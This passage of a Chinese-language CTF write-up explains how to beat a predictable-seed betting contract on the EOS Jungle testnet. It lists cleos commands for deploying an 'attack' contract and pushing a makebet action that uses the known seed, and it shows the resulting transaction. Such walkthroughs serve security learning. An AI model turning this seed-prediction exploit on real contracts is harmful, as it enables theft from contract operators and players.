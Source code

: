 编译合约、抵押 RAM、部署合约、调整合约 eosio.code 权限等过程限于篇幅这里省略，建议大家在官网上学习并自行google，我这里就简单给命令介绍了

```
# 编译 attack.cpp 获得 attack.wasm 以及 attack.abi
eosio-cpp attack.cpp 
# 抵押 RAM
cleos -u http://jungle2.cryptolions.io:80 system buyram aaatester123 aaatester123 "10.0000 EOS" 
# 部署合约，这里使用 -u 指定一个全节点就不需要自己跑链了
cleos -u http://jungle2.cryptolions.io:80 set contract aaatester123 ./attack
# 调整 eosio.code 权限
cleos -u http://jungle2.cryptolions.io:80 set account permission aaatester123 active  
'`{`"threshold" : 1, "keys" : [`{`"key":"你选的EOS公钥","weight":1`}`], 
"accounts" : [`{`"permission":`{`"actor":"aaatester123","permission":"eosio.code"`}`,"weight":1`}`]`}`' owner  
-p aaatester123@owner
```

如果你以及通过了官网上的初步测试，则应该已经了解了 EOS 合约下的结构，这里我重复介绍以下

```
#include &lt;eosio/eosio.hpp&gt;   // 核心库函数
using namespace eosio;
class [[eosio::contract]] attack : public contract `{`
public:
    [[eosio::action]]
    `{`...`}`
`}`
```

这里在 public 关键字下由 [[eosio::action]] 作为标记的函数就是对外暴露可调用的函数，类似于以太坊下的 public function；我们看这个攻击合约内有唯一的可调用函数 makebet，其接收一个 int 类型的参数，即目标合约现有的 seed 值，我们一样可以在区块链浏览器上找到该值

[<img class="aligncenter" title="old seed value" alt="old seed value" data-original="https://p5.ssl.qhimg.com/t01045dc9a9210e25ce.png">](https://p5.ssl.qhimg.com/t01045dc9a9210e25ce.png)

函数的功能还是很显而易见的，就是基于传入的 oldseed 计算新的 seed 并向目标合约发交易，稍微要啰嗦的就是 EOS 中合约发送 inline 交易的代码要写成这样，相比 以太坊 中的 send 和 call 还是麻烦了很多，可以参考官网部分

```
action(
        //permission_level,
        //code,
        //action,
        //data
      ).send();
```

其中参数啥的还是自己取搜清楚把；接下来我们调用部署的合约；

```
# 已知现在的 seed value 为 45587，那么传入参数为 45587
cleos -u http://jungle2.cryptolions.io:80 push action aaatester123 makebet '`{`"oldseed":45587`}`' -p aaatester123@active
# 返回
# executed transaction: f672ad16a8f40d9f96a56b2eaabd4b719e2ae4c66aed0a9bf5bae8e9fc481219  96 bytes  206 us
#  aaatester123 &lt;= aaatester123::makebet        `{`"oldseed":45587`}`
# &gt;&gt; make bet 0
#  de1ctftest11 &lt;= de1ctftest11::bet            `{`"username":"aaatester123","num":0`}`
```
